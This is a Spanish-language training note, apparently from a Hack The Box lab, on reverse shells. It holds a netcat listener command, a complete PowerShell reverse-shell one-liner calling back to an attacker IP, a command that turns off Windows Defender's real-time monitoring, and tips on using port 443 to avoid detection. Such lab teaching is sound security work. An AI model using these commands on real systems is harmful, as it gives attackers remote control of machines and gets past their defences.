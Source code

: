 # Reverse Shells

Con una reverse shell, la **caja de ataque** tendrá un "listener" (escucha) en ejecución, y el **objetivo** necesitará iniciar la conexión.

En muchos casos de sistemas vulnerables, es más probable que un administrador pase por alto conexiones salientes, lo que nos da una mejor oportunidad de no ser detectados. En contraste, las bind shells dependen de conexiones entrantes permitidas por el firewall del lado del servidor, lo cual es difícil de ejecutar en un entorno real.

Como se muestra en la imagen, al iniciar un "listener" para una concha inversa en nuestra caja de ataque, usamos algún método (como la carga de archivos no restringida o la inyección de comandos) para forzar que el objetivo inicie una conexión hacia nuestra caja, haciendo que la caja de ataque se convierta en el **servidor** y el objetivo en el **cliente**.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

No siempre necesitamos reinventar los payloads (comandos y código). Herramientas como el **Reverse Shell Cheat Sheet** contienen listas de comandos y generadores de shells inversas automatizadas que podemos usar en la práctica o en compromisos reales. Sin embargo, muchos administradores conocen estos recursos, por lo que podrían ajustar sus controles de seguridad para detectarlos. En algunos casos, necesitaremos personalizar nuestros ataques.

## Trabajando con una concha inversa en Windows

Vamos a establecer una concha inversa simple usando PowerShell en un objetivo Windows.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Usamos el puerto 443, común para conexiones HTTPS, ya que rara vez los equipos de seguridad bloquean este puerto. Sin embargo, firewalls avanzados con inspección de paquetes y visibilidad en la capa 7 pueden detectar conchas inversas en puertos comunes.

Una vez que el objetivo Windows esté activo, conectamos usando RDP.

> **Nota:** Netcat no es nativo en Windows, por lo que no podemos contar con él directamente. Idealmente, usamos las herramientas nativas del sistema.

Podemos usar un simple **one-liner** de PowerShell para crear una concha inversa.

### **En el objetivo Windows (cliente)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

El antivirus de Windows Defender bloqueó el código, como es de esperar desde el punto de vista defensivo. Desde la perspectiva ofensiva, tenemos algunos obstáculos si el antivirus está habilitado.

### **Deshabilitar el antivirus**

Podemos deshabilitar el antivirus con la siguiente línea en una consola de PowerShell administrativa:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez deshabilitado, ejecutamos de nuevo el código.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hemos establecido con éxito la concha inversa y podemos interactuar con el sistema. Intenta ejecutar algunos comandos estándar de Windows para practicar.

